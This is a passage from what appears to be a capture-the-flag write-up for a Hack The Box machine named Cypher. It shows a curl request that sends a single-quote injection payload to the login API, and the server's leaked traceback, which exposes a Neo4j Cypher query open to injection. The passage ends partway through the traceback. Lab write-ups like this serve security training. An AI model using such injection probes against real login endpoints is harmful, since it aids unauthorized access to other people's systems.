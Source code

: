 #### 💡Cypher queries discovered

Attempting an SQLi with payload `admin'` for the `username` parameter reveals that the site is actually using Cypher queries.
This immediately reminded me of the queries in BloodHound as that program also uses Cypher for its queries.

```
fcoomans@kali:~/htb/cypher$ curl -s -X POST -H 'Content-Type: application/json' --data-binary "{\"username\":\"admin'\",\"password\":\"admin\"}" http://cypher.htb/api/auth

Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
    self._auto_result._run(
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
    self._attach()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 60 (offset: 59))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash"
                                                            ^}

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/app/app.py", line 165, in login
    creds_valid = verify_creds(username, password)
  File "/app/app.py", line 151, in verify_creds
    raise ValueError(f"Invalid cypher query: {cypher}: {traceback.format_exc()}")
ValueError: Invalid cypher query: MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash: Traceback (most recent call last):
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
    return [r.data() for r in session.run(cypher)]
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/session.py", line 314, in run
    self._auto_result._run(
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 221, in _run
    self._attach()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
```